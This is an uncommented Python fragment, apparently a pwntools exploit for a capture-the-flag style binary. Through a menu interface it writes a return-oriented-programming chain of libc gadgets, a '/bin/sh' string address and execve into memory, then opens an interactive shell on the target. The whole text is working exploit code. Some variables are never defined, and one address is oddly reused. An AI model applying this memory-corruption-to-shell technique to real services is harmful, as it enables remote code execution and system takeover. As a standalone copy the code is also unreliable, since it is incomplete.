 ```python
libc_bin_sh = libc_main_base + 0x01b3e9a
libc_int_80 = libc_main_base + 0x01b3e9a
libc_execve =  libc_main_base + 0xE4E30


#0x000000000002155f : pop rdi ; ret A
#0x0000000000023e6a : pop rsi ; ret B
#0x0000000000001b96 : pop rdx ; ret C
#0x000000000003eb0b : pop rcx ; ret D
#0x00000000001306d9 : pop rdx ; pop rsi ; ret

p.send('2\n15\n')
p.send(str(libc_pop_rdi)+'\n')
print(p.recv())

p.send('2\n16\n')
p.send(str(libc_bin_sh)+'\n')
print(p.recv())

p.send('2\n17\n')
p.send(str(libc_pop_rdx_rsi)+'\n')
print(p.recv())

p.send('2\n18\n')
p.send('0\n')
print(p.recv())

p.send('2\n19\n')
p.send('0\n')
print(p.recv())

p.send('2\n20\n')
p.send(str(libc_execve)+'\n')
print(p.recv())

p.send('0\n')
print(p.recv())

p.interactive()
```